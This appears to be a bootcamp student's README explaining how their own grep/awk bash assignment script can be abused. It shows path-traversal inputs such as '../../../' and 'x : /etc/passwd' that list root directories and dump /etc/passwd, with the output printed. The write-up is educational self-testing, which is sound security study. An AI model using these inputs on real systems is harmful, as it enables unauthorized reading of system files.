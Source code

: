 ## LuckyDuckInvestigation Exploit

This .sh file is a bash script I wrote for my Cyber Security Bootcamp assignment to find who the game dealer was during a specified time and game for the Lucky Ducky Investigation.

We were tasked to create a bash script that took user import using grep and awk. It took me a good chunk of time to come up with the script that I am presenting here as I was pretty new to writing bash scripts which means my code isn’t very secure. Once the asignment was completed, I took it upon myself to exploit my own code.

I found that as long as you meet the IF requirment of a game, then the rest of the argument was able to run with the order of TIME > PAM > DATE > GAME.

So if x = GAME, then awk DATE and grep TIME and PAM.

This means I had 3 user input values I can manipulate as long as I specifiy one of the 3 games for my 4th value.

A LOT of trial and error lead me to find the first exploit - Local File Inclusion.

changing the input from

8 AM 0310 BlackJack 
to

8 ../../../ ../../../../ BlackJack
outputs the names of directories on the machine

~#5 ../../../../../../ ../../../../../../../ TexasHoldEm 
~~~~~~~~~~~~~~~~~~~~~~~
awk: warning: command line argument `../../../../../../../03-instructor' is a directory: skipped
awk: warning: command line argument `../../../../../../../03-student' is a directory: skipped
awk: warning: command line argument `../../../../../../../bin' is a directory: skipped
awk: warning: command line argument `../../../../../../../boot' is a directory: skipped
awk: warning: command line argument `../../../../../../../cdrom' is a directory: skipped
awk: warning: command line argument `../../../../../../../cmdCTF' is a directory: skipped
awk: warning: command line argument `../../../../../../../dev' is a directory: skipped
awk: warning: command line argument `../../../../../../../Documents' is a directory: skipped
awk: warning: command line argument `../../../../../../../etc' is a directory: skipped
awk: script2.awk:4: warning: command line argument `../../../../../../../git-ctf' is a directory: skipped
awk: script2.awk:4: warning: command line argument `../../../../../../../home' is a directory: skipped
awk: script2.awk:4: warning: command line argument `../../../../../../../home1' is a directory: skipped
This was an exciting discovery but I wanted to be more specific and eventually narrowed it down to dump the /etc/passwd file by grepping x and : and specifying the path to the file

~#x : /etc/passwd Roulette
~~~~~~~~~~~~~~~~~~~~~~~
root:x:0:0:root:/root:/bin/bash   
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin   
bin:x:2:2:bin:/bin:/usr/sbin/nologin   
sys:x:3:3:sys:/dev:/usr/sbin/nologin   
sync:x:4:65534:sync:/bin:/bin/sync   
games:x:5:60:games:/usr/games:/usr/sbin/nologin   
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin   
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin   
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin   
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin   
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin   
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin   
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin   
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin   
list:x:38:38:Mailing List  
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin   
gnats:x:41:41:Gnats Bug-Reporting  
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin   
systemd-network:x:100:102:systemd Network  
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin  
syslog:x:102:106::/home/syslog:/usr/sbin/nologin   
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin   
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin   
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin   
